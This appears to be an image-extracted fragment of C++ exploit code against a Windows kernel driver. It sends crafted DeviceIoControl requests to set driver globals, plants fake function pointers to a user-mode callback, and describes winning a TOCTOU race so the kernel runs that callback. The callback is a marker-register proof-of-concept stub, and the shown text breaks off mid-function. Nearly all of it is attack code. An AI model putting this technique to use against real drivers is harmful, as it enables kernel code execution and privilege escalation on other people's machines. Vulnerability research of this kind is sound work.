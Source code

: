 ```C++

#pragma pack(pop)

//
// This fills in the K and 0 or FF in a location that is 4 bytes away from the pointer we control. 
// This won't "succeed" but will do enough to set the right data. 
//
VOID SetControllingGlobalData(HANDLE hDevice, BYTE b0OrFF)
{
	INBUFFER_95002558 stInput = { 0 };
	stInput.bMustBeK = 'K';
	stInput.b0orFF = b0OrFF;

	DWORD dwBytesReturned;
	DWORD dwOutput;

	// This will probably fail but that is fine because we need to partially succeed to setup the globals
	if (!DeviceIoControl(hDevice, 0x95002558, &stInput, sizeof(stInput), &dwOutput, 4, &dwBytesReturned, NULL))
	{
		printf("Error: SetControllingGlobalData 0x%02x\r\n", b0OrFF);
	}
}

//
// This should be called back from the kernel if we managed to win the TOCTOU race
//
VOID __cdecl KernelCallbackRaceCondition(HANDLE hFile, DWORD dwUnknown)
{
	__asm
	{
		mov eax, 0xaaaaaaaa
		mov ebx, 0xbbbbbbbb
		mov ecx, 0xcccccccc
		mov edx, 0xdddddddd
		mov esi, 0xd00dd00d
		mov edi, 0xcafecafe
		mov DWORD_PTR[0xCAFED00D], 0xcafecafe
	}
}

//
// This fills in a buffer in a known location which we will reference later. Notably this has the 
// pointers to teh callback routines which I've just pointed to the same place.
//
VOID SetupFixedGlobalDataAndFnPointers(HANDLE hDevice)
{
	BYTE outBuffer[0x8000] = { 0 };
	BYTE data[0x8000] = { 0 };

	memset(data, 0x41, sizeof(data));
	DWORD dwBytesReturned = 0;

	PUNK9 pstUnk9 = (PUNK9)data;
	// This must not be 0;
	pstUnk9->offset_0 = 1;

	pstUnk9->function_ReadFile = (DWORD)KernelCallbackRaceCondition;
	pstUnk9->function_WriteFile = (DWORD)KernelCallbackRaceCondition;
	pstUnk9->function_SetInformationFile = (DWORD)KernelCallbackRaceCondition;
	pstUnk9->function_Query = (DWORD)KernelCallbackRaceCondition;

```